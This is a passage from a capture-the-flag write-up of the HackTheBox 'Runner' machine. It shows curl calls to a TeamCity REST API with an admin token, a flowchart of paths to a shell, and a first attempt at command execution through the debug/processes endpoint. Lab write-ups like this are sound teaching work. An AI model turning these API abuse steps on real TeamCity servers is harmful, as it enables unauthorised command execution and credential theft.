 

Or I can delete one of the existing tokens:



    oxdf@hacky$ curl -X DELETE http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2



I'll save that token in a variable for easy of use:



    oxdf@hacky$ export TOKEN="eyJ0eXAiOiAiVENWMiJ9.Zlp5ZkFqWkpJR1hRU0VTWnpKczBOR2hsZV9N.YjFiMjllMTYtYzE2NC00ODAwLWI3NDMtMTRiMWU3YTVmMTE5"



### Multiple Paths

From this point, with admin access to TeamCity, there are a couple ways
to go. Ultimately they end with a shell as john. The intended path is to
enable debug mode and run commands via the API to get a shell in the
TeamCity container. Alternatively, The TeamCity backup functionality
provides all that is needed to move forward, without ever getting a
shell in the container.

    flowchart TD;
        subgraph identifier[" "]
          direction LR
          start1[ ] --->|intended| stop1[ ]
          style start1 height:0px;
          style stop1 height:0px;
          start2[ ] --->|unintended| stop2[ ]
          style start2 height:0px;
          style stop2 height:0px;
        end
        
        A[TeamCity\nAPI Access]-->B(<a href='#enable-debug-mode'>Enable Debug</a>);
        B-->C[<a href='#shell'>Shell as tcuser in\nTeamCity container</a>];
        C--Via Filesystem-->D(Access SSH key,\nTeamCity DB)
        D-->E[<a href='#connect'>SSH as john</a>];
        A-->F(<a href='#via-admin-panel'>Backup TeamCity Data</a>);
        F--Via backup-->D;

    linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
    linkStyle 1,6,7 stroke-width:2px,stroke:#4B9CD3,fill:none;
    style identifier fill:#1d1d1d,color:#FFFFFFFF;

### Via RCE

#### Enable Debug Mode

If I try to run a command, it will fail for not being enabled:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"
    Responding with error, status code: 400 (Bad Request).
    Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via "rest.debug.processes.enable" internal property
    Invalid request. Please check the request URL and data are correct.

